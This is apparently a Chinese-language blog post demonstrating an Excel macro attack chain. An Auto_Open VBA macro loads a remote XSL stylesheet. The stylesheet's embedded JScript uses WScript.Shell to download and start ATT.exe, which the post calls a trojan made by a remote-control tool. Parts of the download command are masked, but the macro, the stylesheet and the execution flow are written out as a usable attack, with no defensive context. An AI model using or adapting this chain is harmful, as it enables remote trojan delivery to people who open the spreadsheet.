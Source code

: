 ```yaml
---
title: EXCEL远程执行
author: APT - 0x44LL
date: 2021-01-17
category: Jekyll
layout: post
---
```


## EXCEL远程执行演示
<video src="/public/video/RemoteExecution.mp4" width="750px" height="500px" controls="controls"></video>

## 准备工作：<br>
**1.创建以下两个文件<br>**
<font color=Red>
excel.xsl<br>
ATT.xsl<br>
ATT.exe<br>
</font>
---

> excel.xsl

```
Sub Auto_Open()
    Set XML = CreateObject("Microsoft.XMLDOM")
    XML.async = False
    Set xsl = XML
    xsl.Load "http://127.0.0.1:80/ATT.xsl"
    XML.transformNode xsl
End Sub
```


> ATT.xsl

```
<xsl:stylesheet 
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
xmlns:ms="urn:schemas-microsoft-com:xslt" 
xmlns:user="placeholder" 

version="1.0">
<ms:script implements-prefix="user" language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell").Run("cmd xxxxx -xx 127.0.1.1/ATT.exe xxxx/ATT.exe & start xxxx/ATT.exe",0);
  ]]>
</ms:script>
</xsl:stylesheet>
```

> ATT.exe

```
这是远控生成的木马
```

**<font color=Red face="黑体">将ATT.xsl调用ATT.exe执行,当excel.xsl打开就会进行远程加载ATT.xsl并下载在本地执行ATT.exe木马程序；</font>**

